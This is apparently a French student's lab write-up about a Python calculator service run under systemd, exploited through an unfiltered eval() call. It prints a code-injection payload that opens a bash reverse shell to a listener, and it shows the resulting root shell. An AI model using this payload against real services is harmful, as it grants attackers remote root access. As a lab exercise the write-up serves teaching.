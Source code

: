 ```
[telos@vbox opt]$ systemctl status calculatrice
○ calculatrice.service - Super serveur calculatrice
     Loaded: loaded (/etc/systemd/system/calculatrice.service; static)
     Active: inactive (dead)
```

🌞 Vous devez pouvoir utiliser l'application normalement :

```
[telos@vbox opt]$ sudo systemctl start calculatrice
[telos@vbox opt]$ sudo systemctl status calculatrice
● calculatrice.service - Super serveur calculatrice
     Loaded: loaded (/etc/systemd/system/calculatrice.service; static)
     Active: active (running) since Wed 2025-03-19 15:56:18 CET; 3s ago
   Main PID: 1863 (python3)
      Tasks: 1 (limit: 23155)
     Memory: 3.3M
        CPU: 14ms
     CGroup: /system.slice/calculatrice.service
             └─1863 /usr/bin/python3 /opt/calc.py

Mar 19 15:56:18 vbox systemd[1]: Started Super serveur calculatrice.
[telos@vbox opt]$
```

```
telos@TELOS-COMPUTER:~$ nc 10.1.1.12 13337
Hello10+10
20Hello
```

🌞 Hack l'application

```
telos@TELOS-COMPUTER:~$ echo "__import__('os').system('bash -i >& /dev/tcp/172.27.206.51/4444 0>&1')" | nc 10.1.1.12 13337
Hello
```

```
telos@TELOS-COMPUTER:~$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 172.27.192.1 59002
bash: cannot set terminal process group (1902): Inappropriate ioctl for device
bash: no job control in this shell
[root@vbox /]# id
id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_service_t:s0
```

La fonction vulnérable est donc ``eval()`` car il n'y a aucun filtre, l'utilisateur peut injecter n'importe quel payload.

Ici le payload qu'on utilise est : ``__import__('os').system('bash -i >& /dev/tcp/172.27.206.51/4444 0>&1')`` afin d'avoir un reverse shell en tant que root.
